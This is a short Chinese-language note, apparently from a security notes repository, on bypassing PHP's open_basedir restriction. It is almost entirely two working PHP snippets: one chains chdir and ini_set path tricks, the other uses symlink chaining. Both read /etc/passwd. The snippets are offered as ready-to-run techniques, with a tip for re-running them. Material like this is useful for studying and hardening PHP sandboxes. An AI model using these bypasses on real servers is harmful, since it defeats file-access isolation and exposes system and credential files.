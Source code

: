 # 绕过open_basedir

https://xz.aliyun.com/t/10070

## 利用ini_set和chidr

### 参考

- twitter
- https://xz.aliyun.com/t/4720

### 测试

```python
<?php
chdir('subDir');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
$a=file_get_contents('/etc/passwd');
var_dump($a);
```

## 利用symlink

### 参考

- twitter

### 测试

```php
mkdir('/var/www/html/a/b/c/d/e/f/g/',0777,TRUE);
symlink('/var/www/html/a/b/c/d/e/f/g','foo');
ini_set('open_basedir','/var/www/html:bar/');
symlink('foo/../../../../../../','bar');
unlink('foo');
symlink('/var/www/html','foo');
echo file_get_contents('bar/etc/passwd');
```

每次要更换文件夹a和bar和foo，不然会报错文件已存在。

